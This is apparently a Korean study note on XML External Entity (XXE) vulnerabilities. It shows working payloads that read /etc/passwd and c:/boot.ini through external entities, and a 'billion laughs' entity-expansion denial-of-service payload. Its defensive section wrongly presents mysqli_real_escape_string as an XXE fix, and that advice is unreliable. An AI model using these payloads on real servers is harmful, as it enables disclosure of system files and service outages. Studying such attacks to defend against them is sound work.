

# XML External Entity - XXE



<br>

## 📌 XXE?

XML eXternal Entity의 줄임말로 XML 타입의 데이터 요청을 전송할 때 XML Parser가 XML의 외부엔티티를 처리할 수 있게 설정되어 있는 경우 발생하는 취약점이다.

SYSTEM 키워드로 XML 파서를 발생하게 하면 페이지의 내용을 대체하는 권한이 생기고 공격자는 XML 파서로 서버 시스템에 접근할 수 있습니다.

<br>

## XML 구조

xml은 첫줄에 <<xml>xml> 태그를 이용하여 xml 문서임을 명시해야 합니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
```

다음에는 XML 문서에 하나만 존재하는 루트(root) 요소를 생성합니다.

```xml
<!DOCTYPE root []>
```

외부 엔티티 선언 방법입니다.

```xml
<!ENTITY xxe SYSTEM "~~~">
&xxe;
```

<br>

## 🚩 Offensive techniques

외부 엔티티를 선언하여 SYSTEM 키워드로 xml 파서를 발생시켜 서버 시스템이 접근하게 합니다.

Linux

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

&xxe;

>>>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
```

Windows

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///c:/boot.ini">]>
```

Dos 공격을 일으킬 수도 있는데 xml코드로 일으키는 Dos는 XDos 라고도 불린다.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">]>

&log7;

>>>
lollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollollol ...
```

LFI, RFI, Injection 등등 온갖 취약점이 발생될 우려가 있다. 기본적으로 필터링 및 보호기법이 없다는 가정 하에 그냥 쉘처럼 작동한다고 생각하면 됩니다.

<br>

## 🍀 Denfensive techniques

XML 문서는 외부 클라이언트와 통신할 수 있도록 만들어졌기 때문에 특정 개체만 불러오지 않도록 설정하는 것은 어렵다. 따라서 XML파서는 시스템 내부의 DTD만을 참조하도록 하고 XML내부에 선언된 DTD는 허용하지 않도록 설정해야 한다. 즉 신뢰할 수 없는 외부의 DTD는 허용하지 않고 안전하게 구성된 내부의 DTD만을 사용해야 한다. 신뢰할 수 있는 내부 DTD의 엔티티를 통해 참조할 외부 개체를 제한하는 것이다.

mysqli_real_escape_string 함수를 이용해서 "NULL, \r, \n, \, ", '" 앞에 \를 붙혀서 XML코드를 일반문자로 변경합니다.

<br>

## 💡 etc

### xml 파서란?

응용 프로그램이 XML 문서를 읽을 수 있도록 인터페이스를 제공해주는 라이브러리나 패키지를 의미합니다.

XML 파서의 최종 목적은 XML 문서를 응용 프로그램이 읽을 수 있는 코드로 변환하는 것입니다.

### DTD란?

Document Type Definition 또는 문서 타입 정의라 불리며 XML 문서의 구조 및 해당 문서에서 사용할 수 있는 적법한 요소와 속성을 정의한다. 

DTD는 엔티티를 정의할 수 있으며, 빠른 개발을 위한 내부 DTD를 사용할 수 있다.

DTD는 예전부터 사용해 온 구식 방법이지만, 특유의 장점을 바탕으로 아직도 널리 사용되고 있다.

이러한 DTD는 XML 문서 내부에 명시할 수도 있으며, 별도의 파일로 분리할 수도 있다.

<br>

## Reference

https://bibimnews.com/entry/XML-%EC%99%B8%EB%B6%80-%EA%B0%9C%EC%B2%B4XML-External-Entity-XXE-%EC%B7%A8%EC%95%BD%EC%A0%90-OWASP-Top-10-2017-A4

https://portswigger.net/web-security/xxe

https://inpa.tistory.com/entry/XML-%F0%9F%93%91-XML-%EA%B8%B0%EC%B4%88-%EC%A0%95%EB%A6%AC

http://www.tcpschool.com/xml/xml_basic_document